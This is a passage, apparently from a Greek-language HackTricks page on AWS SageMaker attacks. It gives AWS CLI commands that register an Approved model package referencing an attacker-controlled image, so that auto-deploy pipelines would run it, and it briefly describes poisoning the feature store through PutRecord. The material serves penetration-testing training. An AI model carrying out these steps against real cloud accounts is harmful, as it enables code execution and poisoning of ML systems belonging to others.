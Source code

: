 ```bash
{
"Image": "$IMG",
"ModelDataUrl": "s3://$BUCKET/model/model.tar.gz"
}
],
"SupportedContentTypes": ["text/csv"],
"SupportedResponseMIMETypes": ["text/csv"]
}
JSON
aws sagemaker create-model-package --region $REGION   --model-package-group-name $MPG   --model-approval-status Approved   --inference-specification file:///tmp/inf.json
```
4) Επαληθεύστε ότι υπάρχει η νέα εγκεκριμένη έκδοση
```bash
aws sagemaker list-model-packages --region $REGION --model-package-group-name $MPG --output table
```
### Επιπτώσεις
- Poison the Model Registry with an Approved version that references attacker-controlled code. Οι Pipelines που auto-deploy Approved models μπορεί να τραβήξουν και να εκτελέσουν το attacker image, οδηγώντας σε εκτέλεση κώδικα υπό endpoint/training roles.
- Με μια permissive ModelPackageGroup resource policy (PutModelPackageGroupPolicy), αυτή η κατάχρηση μπορεί να ενεργοποιηθεί cross-account.

## Feature store poisoning

Κακοχρησιμοποιήστε `sagemaker:PutRecord` σε ένα Feature Group με OnlineStore enabled για να αντικαταστήσετε τις live τιμές χαρακτηριστικών που καταναλώνονται από online inference. Σε συνδυασμό με `sagemaker:GetRecord`, ένας επιτιθέμενος μπορεί να διαβάσει ευαίσθητα features. Αυτό δεν απαιτεί πρόσβαση σε models ή endpoints.

{{#ref}}
feature-store-poisoning.md
{{/ref}}
{{#include ../../../../banners/hacktricks-training.md}}
